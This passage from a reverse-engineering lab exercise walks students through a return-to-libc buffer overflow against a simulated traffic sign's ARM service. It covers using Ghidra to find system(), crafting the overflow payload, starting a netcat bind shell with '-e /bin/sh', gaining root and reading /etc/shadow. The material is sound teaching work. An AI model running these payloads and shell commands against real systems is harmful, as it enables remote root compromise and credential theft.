The CodeBrowser will launch and display a message that says "libc.so.0 has not been analyzed.  Would you like to analyze it now?"  Click `Yes`.

An Analysis Options dialog will be shown.  For now, leave the default selection of analyzers and click the `Analyze` button.  The `libc.so.0` binary will take a little longer for Ghidra to analyze because it is much larger than the `signApp` binary.  You can observe some status information in the lower right of the CodeBrowser window.  Wait for the analysis to complete before proceeding.

Finding the `system` function in the `libc.so.0` is easy.  Simply type `system` into the Symbol Tree view in the middle left of the CodeBrowser window.  Next, click the `system` function under the Functions portion of the filtered tree.  You will see the address of the `system` function, `0x00058074`, in the Listing window as shown below.


Could finding the address of the system function really be that simple, and would we so readily give up a critical piece of the PoC exploit puzzle for the assignment?  Not quite, but almost.

Observe in the Listing window that the first loadable segment of the `libc.so.0` library is shown at address `0x00010000` (scroll all the way to the top of the Listing window).  You can also see the current base address for `libc.so.0` in the Memory Map.  To load the Memory Map for `libc.so.0` view choose `Window` &#8594; `Memory Map` in the CodeBrowser window for `libc.so.0`.  Yours should look like the one shown.



On the target VMS system, the `libc.so.0` library can't possibly be loaded at virtual memory address `0x10000` because that is where the `signApp` binary is loaded.  `libc.so.0` is a shared library which is loaded when a program starts (the `lib` prefix and `.so` suffix are one indication the file is a shared library).  Many different programs running on the VMS probably load the `libc.so.0` library into their virtual address space and it is quite possible they are loaded at different base addresses in different processes.  Ghidra doesn't have any information in the `libc.so.0` ELF file that would tell it where it is actually loaded into any given process.  This is a situation where we need to help Ghidra out.

Recall when we examined the contents of the `/proc/[pid]/maps` pseudo-file.  The machine code instructions for the functions in the `libc.so.0` library will be loaded in the text segment of the ELF file which we expect to be at one of the lower memory addresses.  Also, we expect that segment of the virtual memory to have read and execute permissions and not have write permissions.  Earlier we had you capture a screenshot of the memory map for the `signApp` process.  The first line in that output associated with the `/lib/libuClibc-1.0.31.so` file will contain the correct base address for where the `libc.so.0` binary is loaded (it will be the lower address).  Recall that on the VMS filesystem `libc.so.0` is a link to the `libuClibc-1.0.31.so` file so in this context you can think of them as effectively the same file.

***Exercise: What is the base address for the `libc.so.0` library in the context of the virtual memory address space for the `signApp` process?***

Now that you determined the base image address of the `libc.so.0` library in the `signApp` process we need to tell Ghidra so we can find the correct offset of the `system` function.  In the upper right corner of the Memory Map view for the `libc.so.0` library you will find a button with an icon that looks like a house.  When you mouse over that button the tooltip will read "Set Image Base."  After clicking that button you will see a small "Base Image Address" dialog appear (shown below) with a field to enter the base address for the `libc.so.0` library.  Enter the base address and click the `OK` button.  You do not need to enter the preceding `0x` prefix on the base image address.  Just enter the four-byte value in a hexadecimal representation (i.e. exactly how you see it in the contents of the `/proc/[pid]/maps` pseudo-file.


After entering the new base address for the library you will see a message that says `One or more relocation fix-ups were not handled for the image rebase.`  Click `OK` in the dialog that appears (this will not be a problem for what we are doing).

After specifying the new base image address return to the `system` function in the Listing view.  Observe that the address was updated to reflect the new offset.

***Exercise: What is the virtual memory address of where we can find the `system` function in the `signApp` process?***

Hint: The `system` function is part of the executable machine code in the `libc.so.0` library so you can expect to find it in the text segment (`.text`).  Refer to the Memory Map view for the `libc.so.0` binary in Ghidra to make sure your answer to the exercise above is within the bounds of the text segment.

Again, recall that our exploit involves calling the `system` function and we need to do the following two things to make the function call:

1. Populate the `r0` register with the address of our command string (i.e. a pointer to our command string).
2. Populate the `pc` register with the address of the `system` function so it will be executed.

At this point we have all the building blocks we need.  We can construct a buffer that puts the values we choose into the `r0` and `pc` registers.  We have a way to write a command string into memory (i.e. via the normal VMS Administrative Interface using the password we recovered).  We have the reliable virtual memory addresses of the command string (i.e. the `message_of_the_day` global variable) and the `system` function.

### Constructing the Proof-of-Concept Exploit

Before we start interacting with the VMS Administrative Interface let's prepare the input buffer we will use to trigger the exploit.

Earlier you constructed an input buffer containing a four-byte sequence of ASCII 'B' characters (0x42) that ultimately made their way into the `pc` register and a four-byte sequence of ASCII 'C' characters (0x43) that made their way into the `r0` register.  Make a copy of the command you generated to send that buffer to the VMS Administrative Interface and change replace the ASCII 'B' characters with the address of the `system` function in `libc.so.0` and the ASCII 'C' characters with the address of the `message_of_the_day` buffer.

Your original command will look something like the one below.  The number of ASCII 'A' characters and their placement in the example below is not correct.

```
student@student:~$ python -c 'print "AAAAAAAACCCCAAAAAAAABBBB"' | nc 127.0.0.1 5555
```

Suppose you want the value `0xDEADBEEF` to be populated into both the `pc` and `r0` registers.  Your modified input command will look something like the one below.  Note that the `\x` is an escape sequence indicating the following two characters are interpreted as hex digits representing a one-byte value.  Also note that the example below accounts for the little endianness of our target architecture.

```
student@student:~$ python -c 'print "AAAAAAAA\xEF\xBE\xAD\xDEAAAAAAAA\xEF\xBE\xAD\xDE"' | nc 127.0.0.1 5555
```

Set your input command aside for now and restart the VMS system.  Refer to the "How to Power Off or Reboot the Variable Message Sign" section for a reminder on how to perform the restart.

#### Initial Proof-of-Concept Exploit

To start, let's have our exploit run a simple command that will prove to us that we are able to execute something.  Let's choose a command that will also give us a small bit of useful information back as well.  For now let's run the [`id`](http://man7.org/linux/man-pages/man1/id.1.html) command which will print the real and effective user and group IDs.  Since we will be running the command via the `signApp` process, the IDs we see will be those of the `signApp` process.

First, connect to the VMS Administrative Interface via the telnet client and change the message of the day to '`id`' as shown below.  Use the password your recovered earlier (it is shown as `<REDACTED>` below).

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: <REDACTED>

You entered the correct password!

Enter the new message of the day: id

The message of the day is now: id

Connection closed by foreign host.
student@revm:~$ 
```

We receive an indication that the message of the day was successfully changed.  We should reconnect to verify that the `signApp` process is still running and that the message of the day is what we intend as shown below.

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: id

If you enter the correct password you can change the message of the day.

password: ^]
telnet> quit
Connection closed.
student@revm:~$ 
```

So far everything seems to be in order.  We haven't actually triggered our exploit yet.  The VMS Administrative Interface allows us to set the message of the day to whatever we want if we have the correct password.  We just chose to set the message to say 'id' to all the drivers passing by.

Now it is time to trigger the exploit.  Send in the buffer you just crafted and you should see output that resembles what is below.  Note that in the example below the actual command is replaced with the `0xDEADBEEF` example.

```
student@revm:~$ python -c 'print "AAAAAAAA\xEF\xBE\xAD\xDEAAAAAAAA\xEF\xBE\xAD\xDE"' | nc 127.0.0.1 5555
The message of the day is: id

If you enter the correct password you can change the message of the day.

password: student@revm:~$ 
```

What we see here should match our expectations.  We received no indication that the supplied password was incorrect (or correct) and we did not receive another password prompt from the server.  Also, the connection was immediately terminated after sending the input.

However, if you inspect the console of the VMS system you should see the following text.

```
uid=0(root) gid=0(root)
```

This is an indication that, using our exploit, we were able to execute a shell command on the VMS system!

We're almost there, but simply running the `id` command in the shell isn't exactly something that demonstrates we can violate the confidentiality and integrity of the VMS system.

Let's consider the following command which starts a `netcat` listener on TCP port 1337 and runs the `/bin/sh` program when a connection is made.  `netcat` (a.k.a. `nc`) is a utility used for reading and writing to TCP or UDP network sockets.  The tool can be used for various types of network administration tasks, debugging of network services, and transferring data (e.g. files).  The tool is quite simple yet very powerful.

```
nc -lnv -p 1337 -e /bin/sh
```

The `-l` option tells `nc` to run in listen mode and accept inbound connections.  The `-n` option tells `nc` to not use IP addresses and not use DNS (typically in an attack scenario you don't need to resolve names via DNS and you want to avoid that type of additional traffic anyway).  The `-v` option tells `nc` to run in verbose mode so it will print out a message when a new connection arrives (this will be helpful in our testing).  The `-p` option tells `nc` to listen on port `1337` (we did not specify the `-u` option for UDP so netcat will use TCP port `1337`).  The `-e` option tells `nc` to execute `/bin/sh`, the shell program, when a new connection is received.  Input from the client will be passed to `/bin/sh` and output from `/bin/sh` will be passed back from the client.  Because the `signApp` process was running as `root` the attacker will be able to interact with the shell and execute whatever commands they want.  As `root`, the attacker can fully compromise the confidentiality, integrity, and availability of the target system!

> The [original `netcat` implementation](http://nc110.sourceforge.net/) supports an appropriately named  `-DGAPING_SECURITY_HOLE` compile time option.  This compile option enables the `-e` argument which allows a program to execute after making or receiving a connection.  Clearly this is dangerous because it allows for any program, like a shell, to have its input and output attached to the network.
>
> The VMS uses the [BusyBox implementation of `nc`](https://busybox.net/downloads/BusyBox.html#nc) which supports the `-e` argument.
>
> Use of `netcat`, and especially support for the `-e` argument, should be avoided in production systems.  There are ways to enable the `-e` like behavior even if support for it is not built in and also ways to achieve other `netcat` capabilities without netcat at all.  For that, refer to the "[Netcat without -e? No Problem!](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem#)" posting by Ed Skoudis.

When the attacker connects to the `netcat` listener on the VMS they might accidentally press the <kbd>Ctrl</kbd> + <kbd>C</kbd> key combination which will terminate the `netcat` program on the server side (i.e. on the VMS sign) and they won't be able to connect back to it.  We can easily address this problem by putting our `nc` command in an infinite loop.  This way, if the attacker terminates the `nc` program it will automatically be restarted and they can simply connect again.  The following will be our final command for the proof-of-concept exploit.

```
while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done
```

#### Final Proof-of-Concept Exploit

Now that we finally have all the pieces we need to accomplish our client's objective #2 let's put things together one more time.

First, restart the VMS system again to get it back to the original state.  After the VMS restarts connect to the VMS Administrative Interface via the telnet client and change the message of the day to '`while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done`' as shown below.

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: <REDACTED>

You entered the correct password!

Enter the new message of the day: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done

The message of the day is now: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done

Connection closed by foreign host.
student@revm:~$ 
```

Reconnect to verify that the `signApp` process is still running and that the message of the day is what we intend as shown below.

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done

If you enter the correct password you can change the message of the day.

password: ^]
telnet> quit
Connection closed.
student@revm:~$ 
```

Now, trigger the exploit by sending in the same buffer you used for your initial cut at the PoC exploit (i.e. the one where we ran the `id` command).  You should see output that resembles what is below.  Note that in the example below the actual command is replaced with the `0xDEADBEEF` example.

````
student@revm:~$ python -c 'print "AAAAAAAA\xEF\xBE\xAD\xDEAAAAAAAA\xEF\xBE\xAD\xDE"' | nc 127.0.0.1 5555
The message of the day is: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done

If you enter the correct password you can change the message of the day.

password: 

````

Observe that this time you triggered the exploit your connection did not terminate like it did before.  This is because the command successfully executed and our netcat listener is running on the server (i.e. the VMS).

If everything worked, you should be able to connect to the `netcat` listener you started on the VMS system from your Reverse Engineering VM.  Run the following command from a new terminal window on your Reverse Engineering VM.

```
student@revm:~$ nc 127.0.0.1 1337
```

After running the command above you should see a message printed on the console of the VMS system that looks like the following.  Your source port will vary with each connection (below the source port is `33888`).

```
Connection from 10.0.2.2:33888
```

Now, try running some shell commands from the terminal window where your ran your `netcat` client (i.e. the terminal where you ran the `nc 127.0.0.1 1337` command).  Start by running the `id` command as shown below and look for the output on the following line.

```
id
uid=0(root) gid=0(root)
```

This shows you that you have shell access and are running as the `root` user.

Now try running the `uname -a` command and you should see output that resembles what is shown below.

```
uname -a
Linux vms 4.19.16 #1 Mon Jul 15 12:29:09 EDT 2019 armv5tejl GNU/Linux
```

The output shows you the kernel name (`Linux`), hostname (`vms`), kernel release (`4.19.16`), kernel version (`#1 Mon Jul 15 12:29:09 EDT 2019`), machine hardware name (`armv5tejl`), and the operating system (`GNU/Linux`).  Note that your kernel release may vary slightly.  If your output is different it is possible you were not actually running the command via your shell connection to the VMS system and you are looking at the results from your Ubuntu Reverse Engineering VM.

Now let's try demonstrating a command that would compromise the confidentiality of the VMS.  For example, the `/etc/shadow` file is where hashed passwords are stored.  If an attacker is able to retrieve those they may be able to crack them offline.  Try running the `cat /etc/shadow` command to view the contents of that file as shown below.  Note that there are no hashed passwords in the file for the VMS, but there could be in a production system.

```
cat /etc/shadow
root::10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
bin:*:10933:0:99999:7:::
sys:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
mail:*:10933:0:99999:7:::
www-data:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
```

We'll stop there because we've shown we now have a proof-of-concept exploit that demonstrates how at attacker can compromise the confidentiality, integrity, and availability of the VMS system via a network-based attack vector.

***Exercise: Provide the following items to demonstrate you were able to complete a working proof-of-concept exploit.***

1. ***The text of the command you ran to send your final proof-of-concept attack buffer to the VMS Administrative Interface.***
2. ***A screenshot showing the full output you see in the terminal after running the command.***
3. ***A screenshot showing the results of running the `id` and `uname -a` commands in your `netcat` shell connection to the VMS.***

Congratulations, if you reached this point you accomplished objective #2 for your customer!  Also, you completed the exercise!

---
Author: Troy Shurtleff
Copyright 2019 BAE Systems
SPDX-License-Identifier: Apache-2.0

Approved for public release; unlimited distribution
Not export controlled per ES-FL-091619-0203